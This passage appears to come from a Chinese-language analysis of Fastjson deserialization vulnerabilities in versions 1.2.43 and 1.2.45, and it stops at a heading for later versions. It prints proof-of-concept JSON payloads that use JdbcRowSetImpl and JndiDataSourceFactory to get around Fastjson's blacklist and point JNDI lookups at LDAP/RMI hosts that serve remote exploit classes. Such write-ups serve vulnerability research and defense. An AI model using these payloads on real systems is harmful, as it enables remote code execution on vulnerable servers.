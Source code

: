 ### 四、Fastjson 1.2.43版本  
  
附上poc  
```
{
    "@type":"[com.sun.rowset.JdbcRowSetImpl"[,
    {"dataSourceName":"ldap://127.0.0.1:1234/Exploit",
    "autoCommit":true
}
或
{
    "b":{
        "@type":"[com.sun.rowset.JdbcRowSetImpl"[{,
        "dataSourceName":"rmi://test.com:9999/TouchFile",
        "autoCommit":true
    }
}
```  
  
### 五、Fastjson 1.2.45版本  
  
分析版本来到fastjson1.2.45  
，此版本升级后，存在一个黑名单匹配绕过  
，绕过类  
  
org.apache.ibatis.datasource.jndi.JndiDataSourceFactory  
  
利用条件如下  
1. 目标服务端存在mybatis  
的jar包。  
  
1. 版本需为 3.x.x ～ 3.5.0  
  
1. autoTypeSupport属性为true才能使用。（fastjson >= 1.2.25默认为false）  
  
Poc  
如下  
```
{  
  "@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",  
  "properties":{  
    "data_source":"ldap://127.0.0.1:1234/Exploit"  
  }  
}  
或  
{  
  "b":{  
    "@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",  
    "properties":{"data_source":"ldap://localhost:1389/Exploit"}  
  }  
}
```  
  
### 六、Fastjson <=1.2.62 和 <=1.2.66版本  
  